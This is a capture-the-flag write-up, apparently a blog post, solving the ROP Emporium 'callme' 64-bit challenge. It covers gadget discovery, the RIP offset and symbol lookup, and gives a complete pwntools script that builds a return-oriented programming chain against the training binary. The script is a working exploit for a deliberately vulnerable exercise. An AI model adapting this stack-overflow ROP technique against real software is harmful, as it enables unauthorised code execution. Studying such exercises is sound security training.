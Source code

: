 ```yaml
---
layout: post
title: Callme 64-bit Rop Emporium
date: 2025-06-09
categories:
  - pwn
---
```

# Callme 64 bit Writeup

From challenge description
> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

---
### Exploitation Path
1. Find ROP gadgets
2. Find Offset to RIP
3. Find function addresses

#### Finding the gadgets
We are gonna use pwntools to find the required rop gadgets. we have to call a functions with 3 arguments, therefore we will need the following registers
- `rdi`
- `rsi`
- `rdx`
The full rop gadget is `pop rdi; pop rsi; pop rdx; ret`

Using pwntools to find gadget
```python
rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]
```
#### Finding the offset to RIP

Create de bruijn sequence
```sh
ragg2 -P 200 -r
```

copy output then run program with r2 debugger

![Debugger](../assets/images/callmex64pic1.png)

offset to rbp = 32

offset to rip = rbp + 8 = 40

#### Finding function addresses
Use pwntools to easily find the function addresses

```python
func1 = elf.sym['callme_one']
func2 = elf.sym['callme_two']
func3 = elf.sym['callme_three']
```

---


### Developing Payload

The payload following this :
- junk *  offset_to_rip
- rop_gadget
- function_args
- function

```python
payload = cyclic(offset) 
payload += rop_gadget
payload += arg1, arg2, arg2
payload += elf.sym['callme_one']
```

### Final Script

```python
#!/bin/python3
from pwn import *
import sys

binary = "./callme"
elf = context.binary = ELF(binary, False)
context.terminal = ["terminator", "-x", "bash", "-c"]
context.log_level  = 'debug'
libc = elf.libc
rop = ROP(elf)

#### GDB Script
script = '''

'''
def start(*args, **kwargs):
    usage = f"{sys.argv[0]} gdb \nor \n{sys.argv[0]} remote"
    # [ip, port]
    REMOTE = []
    if args:
        arguments = list(args)
        arguments.insert(0, elf.path)
        return process(arguments)

    if not args and not kwargs:
        if len(sys.argv) > 1:
            if sys.argv[1] == 'gdb':
                return gdb.debug(elf.path, gdbscript=script)
            elif sys.argv[1] == 'remote':
                return remote(REMOTE[0], REMOTE[1])
            else:
                print("INVALID ARGUMENT")
                print(usage)
                sys.exit(0)
        else:
            return process(elf.path)

def main():
    ### MAIN CODE HERE
    arg1, arg2, arg3 = 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d
    
    ## rop gadget
    gadget = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]
    offset = 40 # offset to rip
    payload = flat(
        cyclic(offset),
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_one'],
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_two'],
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_three']
    )

    io = start()
    io.recvuntil('> ')
    io.sendline(payload)
    io.interactive()
if __name__ == "__main__":
    main()
```

